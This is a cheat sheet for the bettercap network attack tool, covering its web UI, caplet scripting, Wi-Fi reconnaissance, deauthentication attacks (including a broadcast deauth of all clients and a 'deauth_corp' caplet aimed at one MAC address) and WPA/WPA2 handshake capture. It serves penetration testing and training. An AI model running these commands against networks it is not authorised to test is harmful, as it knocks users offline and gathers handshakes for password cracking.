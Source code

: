 https://hackviser.com/tactics/tools/bettercap

```bash
sudo bettercap -iface wlan0 # Run bettercap with a specified interface
```

# Web UI
Use `https-ui.cap` caplet to enable web interface:

Edit file and set values
```bash
sudo nano /usr/share/bettercap/caplets/https-ui.cap
...
set api.rest.username user
set api.rest.password passwd
```

Run:
```bash
sudo bettercap -iface wlan0 -caplet https-ui
```

Default ports:
- Web UI: `https://<IP>` (port 443)
- API: `https://<IP>:8083`

# Modules vs Commands

- **Modules**: Functional areas (e.g. `wifi`, `ble`, `ethernet`, `core`, etc.)
- **Commands**: Actions within modules (e.g. `wifi.recon`, `wifi.deauth`)
- Use `set` to configure module parameters.

```bash
set wifi.hop.period 200
```


# Automation with ticker
```bash
set ticker.commands "clear; wifi.show"
set ticker.period 5
ticker on
```

# Caplets (bettercap scripts)

Location: `/usr/share/bettercap/caplets/`

Example custom caplet:

```bash
cat ~/deauth_corp.cap
```

```cap
set $ {br}{fw}{net.received.human} - {env.iface.name}{reset} » {reset}
set ticker.period 10
set ticker.commands clear; wifi.show; events.show; wifi.deauth c6:2d:56:2a:53:f8
events.ignore wifi.ap.new
events.ignore wifi.client.probe
events.ignore wifi.client.new
wifi.recon on
ticker on
events.clear
clear
```

Run the caplet:

```bash
sudo bettercap -iface wlan0 -caplet ~/deauth_corp.cap
```


# Wi-Fi

## Wi-Fi Reconnaissance
```bash
wifi.recon on # Start Scanning
wifi.recon.channel 1,2,3 # Limit to Specific Channels
wifi.show # Show Discovered APs and Clients

# Sort and Filter Output
set wifi.show.sort clients
set wifi.show.filter WPA2
set wifi.rssi.min -49

set wifi.show.filter "" # Reset filters
```

## Deauth Attacks

```bash
wifi.deauth <AP_BSSID> # Deauth all clients from AP
wifi.deauth <CLIENT_MAC> # Deauth specific client
wifi.deauth ff:ff:ff:ff:ff:ff # Deauth all
```
```bash
set wifi.deauth.skip <MAC1>,<MAC2> # Set skip list
```

## Capturing WPA/WPA2 Handshakes
```bash
# Change default output and aggregation
set wifi.handshakes.file "/home/kali/handshakes/"
set wifi.handshakes.aggregate false
```

Captured handshakes are saved as `SSID_<BSSID>.pcap`

